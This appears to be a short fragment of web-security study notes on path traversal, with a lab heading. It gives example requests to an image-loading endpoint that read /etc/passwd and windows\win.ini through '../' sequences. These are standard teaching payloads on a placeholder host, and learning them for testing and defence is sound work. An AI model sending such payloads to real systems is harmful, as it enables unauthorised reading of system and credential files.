 ## Reading arbitrary files via path traversal

`https://insecure-website.com/loadImage?filename=../../../etc/passwd`  
`https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini`

## Lab: File path traversal, simple case
`/image?filename=../../../etc/passwd`